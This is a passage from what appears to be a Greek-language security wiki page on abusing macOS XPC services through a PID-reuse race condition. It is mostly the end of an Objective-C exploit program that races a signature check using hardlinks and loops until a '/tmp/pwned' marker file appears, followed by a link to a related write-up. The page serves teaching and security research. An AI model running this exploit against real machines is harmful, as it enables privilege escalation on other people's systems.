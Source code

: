 ```objectivec
sleep(3);

// Terminate child processes
for (int i = 0; i < RACE_COUNT; i++) {
if (pids[i]) {
kill(pids[i], 9);
}
}
}

int main(int argc, const char * argv[]) {
// Create and set execution rights to 'hard_link' file
system("touch hard_link");
system("chmod +x hard_link");

// Create thread to exploit sign verification RC
pthread_t thread;
pthread_create(&thread, NULL, check_race, NULL);

while(!pwned) {
// Try creating 'download' directory, ignore errors
system("mkdir download 2>/dev/null");

// Create a hardlink
// TODO: CHANGE NAME OF FILE FOR SIGN VERIF RC
system("ln hard_link download/legit_bin");

xpc_pid_rc_abuse();
usleep(10000);

// The payload will generate this file if exploitation is successfull
if (access("/tmp/pwned", F_OK ) == 0) {
pwned = true;
}
}

return 0;
}
```
{{#endtab}}
{{#endtabs}}

## Άλλα παραδείγματα

- [https://gergelykalman.com/why-you-shouldnt-use-a-commercial-vpn-amateur-hour-with-windscribe.html](https://gergelykalman.com/why-you-shouldnt-use-a-commercial-vpn-amateur-hour-with-windscribe.html)

## Αναφορές

